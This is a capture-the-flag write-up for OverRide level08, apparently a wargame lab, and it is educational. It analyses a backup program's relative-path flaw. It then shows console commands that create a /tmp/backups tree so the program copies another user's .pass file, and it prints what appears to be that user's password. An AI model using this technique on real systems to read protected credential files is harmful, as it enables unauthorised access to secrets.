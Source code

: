 # Level 08

<h3>source.c</h3>

```console
The source for this program is quite long
So i will not include it in this file, and can be check in the source.c directly if needed
```

<h3>Analysis</h3>

```console
level08@OverRide:~$ ./level08
Usage: ./level08 filename
```

At first try, this program require a filename to run, and after analyzing the code, we can find something interesting

```console
fs_2 = fopen(argv[1],"r");
if (fs_2 == 0) {
  printf("ERROR: Failed to open %s\n", argv[1]);
  exit(1);
}

strcpy(path, "./backups/");
strncat(path, argv[1], 99 - strlen(path));
fd = open(path, 193, 432);
if (fd < 0) {
  printf("ERROR: Failed to open %s%s\n", "./backups/", argv[1]);
  exit(1);
}
while(c = fgetc(fs_2)) {
  write(fd, &c, 1);
}
```

First it will try to open the file base on the filename that we input as `argv[1]`, next it will try to open `./backups/argv[1]` as well

If both file is available, it will then proceed to write char by char the content of file opened with `argv[1]` into `./backups/argv[1]`

Lets try with the file that we are most interested in `/home/users/level09/.pass`

```console
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

It seems the program faileld in opening `./backups//home/users/level09/.pass`, it could be possible that the folder `backups` is not created

Our goal this time will be to find a way to make this work

<h3>Exploit</h3>

Since the program need `backups` folder to exist, lets go to `/tmp` to create one!

```console
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/     -> use option -p to create parent folder if needed
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass      -> use ~ as the path to user home, where the program level08 is located
level08@OverRide:/tmp$ cat ./backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```